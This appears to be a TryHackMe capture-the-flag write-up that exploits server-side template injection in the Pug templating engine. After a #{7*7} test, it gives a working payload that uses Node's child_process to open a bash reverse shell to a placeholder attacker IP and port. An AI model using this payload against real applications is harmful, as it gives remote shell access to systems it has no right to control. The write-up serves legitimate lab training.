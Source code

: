 [Template Room Link](https://tryhackme.com/room/templates)
<H6>Introduction</H6>
My favourite type of dog is a pug... and, you know what, Pug is my favourite templating engine too! I made this super slick application so you can play around with Pug and see how it works. Seriously, you can do so much with Pug!.

First thing first i did is to research about the Pug template engine becasue this is my first time i heard it. After reasearching from the documentation of the [Pug official](https://pugjs.org/api/getting-started.html), im sure we can do SSTI. 
![][/TryhackMe/Images/Template-Image-1.png]

from the above image we can do SSTI with #{injection}, for the first payload i will test it with using 
```Js
#{7\*7}
```

![[/TryHackMe/Images/Template-Image-2.png]]

then click convert will return this
![[/TryHackMe/Images/Template-Image-3.png]]
after that we can further attack with different payload that can help up find the flag. In this case, i will try to make reverse shell that will connect to my computer with this payload
```Js
h1 #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('bash -c "exec bash -i &>/dev/tcp/IP/PORT <&1"')}()}
```
that payload will make connection back to our computer we thay render the code
![[TryHackMe/Images/Template-Image-4.png]]

<H4>Link that can Help</H4>
[SSTI Cheat Sheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)